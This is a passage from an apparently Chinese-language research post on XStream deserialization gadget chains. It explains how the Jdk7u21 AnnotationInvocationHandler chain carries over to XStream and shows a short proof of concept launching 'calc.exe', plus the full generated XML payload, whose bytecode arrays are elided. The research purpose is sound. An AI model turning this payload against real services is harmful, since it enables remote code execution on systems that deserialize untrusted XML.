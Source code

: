 以动态代理类的实现类的invoke方法为source，可控的Method.invoke为sink，并且不包含com.sun.org.glassfish包中的类，因为这个包中存在多个实现类似的invoke方法，对传入类做了严格限制，无法利用，为了方便排查，屏蔽这个包的结果：

 ![](/attachments/2025-01-22-xstream-gadget/cbdea809-206e-4e5a-837f-73de4684bc1d.png)

一共存在12条链路。其中可以看到有一个sun.reflect.annotation.AnnotationInvocationHandler类。看过Java反序列化的同学一定认识这个类，因为这个类就是原生反序列化中很经典的一条利用链Jdk7u21。

 ![](/attachments/2025-01-22-xstream-gadget/12e87915-cfe8-4866-bae1-665b49b6ff5b.png)

而这里给出的链路其实就是Jdk7u21的利用链路，既然它在原生反序列化中可以使用，那么对于适用范围更广的XStream来说，也很有可能可以用。

验证起来也很简单，直接将jdk7u21生成的对象toXML，然后再调用fromXML，就会发现是可以触发代码执行的。

```jsx
String poc = xStream.toXML(new Jdk7u21().getObject("calc.exe"));
xStream.fromXML(poc);
```

生成的XML如下：

```jsx
<linked-hash-set>
  <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl serialization="custom">
    <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
      <default>
        <__indentNumber>0</__indentNumber>
        <__transletIndex>-1</__transletIndex>
        <__useServicesMechanism>false</__useServicesMechanism>
        <__bytecodes>
          <byte-array>xxx</byte-array>
          <byte-array>xxx</byte-array>
        </__bytecodes>
        <__name>Pwnr</__name>
      </default>
      <boolean>false</boolean>
    </com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
  </com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
  <dynamic-proxy>
    <interface>javax.xml.transform.Templates</interface>
    <handler class="sun.reflect.annotation.AnnotationInvocationHandler" serialization="custom">
      <sun.reflect.annotation.AnnotationInvocationHandler>
        <default>
          <memberValues>
            <entry>
              <string>f5a5a608</string>
              <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl reference="../../../../../../../com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"/>
            </entry>
          </memberValues>
          <type>javax.xml.transform.Templates</type>
        </default>
      </sun.reflect.annotation.AnnotationInvocationHandler>
    </handler>
  </dynamic-proxy>
</linked-hash-set>
```
